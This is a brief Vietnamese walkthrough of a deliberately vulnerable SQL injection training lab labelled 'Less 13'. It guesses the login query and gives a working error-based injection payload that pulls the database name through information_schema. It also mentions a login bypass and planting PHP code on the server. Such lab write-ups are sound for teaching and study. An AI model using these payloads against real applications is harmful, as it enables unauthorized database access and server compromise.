





# Less 13

Đề bài có một khung đăng nhập



Thử đăng nhập


Tiếp tục thử thêm. Đến khi tôi nhập vào giá trị như sau



Thì thấy có xuất hiện lỗi trên màn hình



Dựa vào đây có thể dự đoán câu query có thể là:

```
select * from table where user=('$user') and password=('$passwd') limit 0,1
```

Dựa vào câu query thử thực hiện login



Ở đây tôi đã thực hiện login thành công mà không cần đến username hay password


Dựa vào đây ta có thể show các thông tin trong DB giống như các bài trước

```
1') and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --
```



Ta cũng có thể thêm code PHP lên server như những bài trước